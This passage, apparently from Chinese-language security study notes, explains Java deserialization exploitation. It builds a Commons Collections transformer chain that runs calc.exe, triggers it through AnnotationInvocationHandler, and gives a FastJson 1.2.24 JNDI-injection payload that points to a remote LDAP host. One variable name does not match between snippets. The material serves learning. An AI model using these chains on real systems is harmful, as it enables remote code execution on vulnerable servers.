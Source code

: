 ```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
};

Transformer transformerChain = new ChainedTransformer(transformers);
```

还需最后一步触发`ChainedTransformer`的transform方法，利用`cc.TransformedMap`和`sun.reflect.annotation.AnnotationInvocationHandler`：

```java
Map innerMap = new HashMap();
innerMap.put("value", "value");
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
onlyElement.setValue("exp");
```

`AnnotationInvocationHandler`的`readObject`间接的调用了`MapEntry`的`setValue`方法，外部需要反射创建实例

map的key名称需要对应于传入的注解`java.lang.annotation.Target`的方法名

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);

// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
Object instance = constructor.newInstance(Target.class, transformedMap);
```

其他的就不一一复现了，直接用ysoserial即可

## Vuln

### FastJson

这个太有名了，没系统学习前我就熟知漏洞版本

JSON库支持转换到类在很多语言里都是很常见的，用来映射JSON到类的成员变量，所以FastJson里有`@type`

FastJson在解析时会提取类中的setter和getter方法，如果JSON的键中存在这个值，就会去调用对应的getter/setter

#### 1.2.24

这个版本没有任何防范，通过`com.sun.rowset.JdbcRowSetImpl`进行JNDI注入，Jdbc的source允许指定JNDI URL

```java
exp = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://1.1.1.1:9999/Exploit\", \"autoCommit\":true}";
```
